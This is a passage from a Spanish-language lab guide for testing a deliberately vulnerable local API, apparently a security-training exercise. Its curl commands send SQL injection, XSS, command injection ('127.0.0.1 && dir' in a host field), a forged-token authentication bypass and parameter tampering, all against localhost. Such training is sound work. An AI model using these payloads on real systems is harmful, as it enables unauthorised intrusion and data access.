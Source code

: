 ### Fase 2: Authentication Testing (20 minutos)
**Objetivo**: Evaluar mecanismos de autenticación y autorización

```powershell
# Test de enumeración de usuarios
curl -X POST http://localhost:5000/api/Vulnerable/login `
  -H "Content-Type: application/json" `
  -d '{"username":"admin","password":"wrong"}'

# Test de bypass de autenticación
curl -X GET "http://localhost:5000/api/Vulnerable/admin/secrets?token=admin_1_1640995200"
```

**Entregables**:
- Resultados de enumeración de usuarios
- Análisis de tokens de sesión
- Documentación de bypass de autenticación

### Fase 3: Input Validation Testing (25 minutos)
**Objetivo**: Identificar vulnerabilidades de validación de entrada

```powershell
# Testing SQL Injection
curl -X GET "http://localhost:5000/api/Vulnerable/user/1' OR '1'='1"

# Testing XSS
curl -X GET "http://localhost:5000/api/Vulnerable/search?query=<script>alert('XSS')</script>"

# Testing Command Injection  
curl -X POST http://localhost:5000/api/Vulnerable/ping `
  -H "Content-Type: application/json" `
  -d '{"host":"127.0.0.1 && dir"}'
```

**Entregables**:
- Matriz de vulnerabilidades de entrada
- Payloads exitosos documentados
- Análisis de impacto por vulnerabilidad

### Fase 4: Business Logic Testing (15 minutos)
**Objetivo**: Evaluar lógica de negocio y control de acceso

```powershell
# Análisis de lógica de autorización
curl -X GET "http://localhost:5000/api/Vulnerable/admin/secrets" `
  -H "Authorization: Bearer user_2_1640995200"

# Test de manipulación de parámetros
curl -X GET "http://localhost:5000/api/Vulnerable/user/-1"
```

**Entregables**:
- Análisis de control de acceso
- Documentación de fallas de lógica de negocio
- Matriz de privilegios y permisos

